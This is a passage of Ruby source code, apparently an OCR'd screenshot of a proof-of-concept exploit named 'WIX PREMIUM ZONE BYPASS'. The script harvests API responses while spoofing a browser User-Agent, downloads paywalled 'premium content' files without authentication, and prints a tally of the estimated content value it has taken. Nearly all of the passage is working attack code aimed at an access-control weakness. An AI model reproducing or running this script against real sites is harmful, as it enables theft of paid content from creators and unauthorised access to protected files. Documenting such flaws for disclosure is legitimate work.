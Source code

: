 ```ruby
        response = RestClient.get(api_url, {
          'User-Agent' => 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
        })
        
        json_data = JSON.parse(response.body)
        json_responses << json_data
        puts "[+] Successfully accessed: #{api_url}"
        
      rescue RestClient::ExceptionWithResponse => e
        puts "[-] Failed to access: #{api_url} (#{e.response.code})"
      rescue => e
        puts "[-] Error processing: #{api_url} (#{e.message})"
      end
    end
    
    puts "[+] Processing #{json_responses.length} API responses for content extraction..."
    
    # Phase 2: Premium Content Download
    extracted_files = 0
    total_content_value = 0
    
    json_responses.each_with_index do |response_data, index|
      next unless response_data['data'] && response_data['data']['document_data']
      
      puts "[+] Processing API response #{index + 1}/#{json_responses.length}"
      
      response_data['data']['document_data'].each do |document|
        document.each do |content_item|
          next unless content_item['uri']
          
          filename = content_item['uri']
          local_path = File.join(@output_dir, filename)
          
          begin
            # Download protected content without authentication
            media_response = RestClient.get(@base_image_url + filename, {
              'User-Agent' => 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
            })
            
            File.write(local_path, media_response.body, mode: 'wb')
            puts "[+] Downloaded premium content: #{filename}"
            
            extracted_files += 1
            total_content_value += 10 # Estimated value per premium file
            
          rescue => e
            puts "[-] Failed to download: #{filename} (#{e.message})"
          end
        end
      end
    end
    
    # Impact Assessment
    puts "\n" + "="*60
    puts "WIX PREMIUM ZONE BYPASS - IMPACT SUMMARY"
    puts "="*60
    puts "[+] Total premium files extracted: #{extracted_files}"
    puts "[+] Estimated content value bypassed: $#{total_content_value}"
    puts "[+] WIX monthly fee for 'security': $6"
    puts "[+] Content creator premium charge: $100+"
    puts "[+] Authentication bypass: COMPLETE"
    puts "="*60
  end
```